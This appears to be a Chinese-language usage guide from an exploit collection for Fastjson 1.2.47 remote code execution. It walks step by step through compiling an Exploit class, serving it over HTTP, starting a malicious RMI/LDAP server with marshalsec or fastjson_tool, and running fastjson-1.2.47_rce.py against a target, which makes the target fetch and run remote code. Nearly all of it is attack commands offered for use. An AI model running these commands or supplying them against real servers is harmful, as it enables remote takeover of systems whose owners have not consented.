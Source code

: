 ## 以Fastjson 1.2.47 利用为例
### marshalsec-0.0.3-SNAPSHOT-all.jar 启用 RMI/LDAP
编译Exploit.java生成Exploit.class
```
javac Exploit.java
```
python3 启一个 http 部署 Exploit.class
```
python3 -m http.server --bind 0.0.0.0 8888
```
marshalsec 开启 rmi
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://x.x.x.x:8888/#Exploit" 9999
```

### fastjson_tool.jar 启用 RMI/LDAP
[@wyzxxz](https://github.com/wyzxxz/fastjson_rce_tool)大佬的tools整合了rmi/ldap+命令执行,
```
java -cp fastjson_tool.jar fastjson.HRMIServer 127.0.0.1 9999 "touch /tmp/233"
```

### fastjson-1.2.47_rce.py
> ```
> +------------------------------------------------------------------------------------+
> + DES: by zhzyker as https://github.com/zhzyker/exphub                               +
> +      RMIServer: rmi://ip:port/exp                                                  +
> +      LDAPServer: ldap://ip:port/exp                                                +
> +------------------------------------------------------------------------------------+
> + USE: python3 <filename> <target-ip> <RMI/LDAPServer>                               +
> + EXP: python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ ldap://2.2.2.2:88/Object  +
> + VER: fastjson<=1.2.47                                                              +
> +------------------------------------------------------------------------------------+
> ```

执行py脚本
- http://1.1.1.1:8080/ 为fastjson漏洞主机
- rmi://2.2.2.2:9999/Exploit 为rmi服务
```
python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ rmi://2.2.2.2:9999/Exploit
```
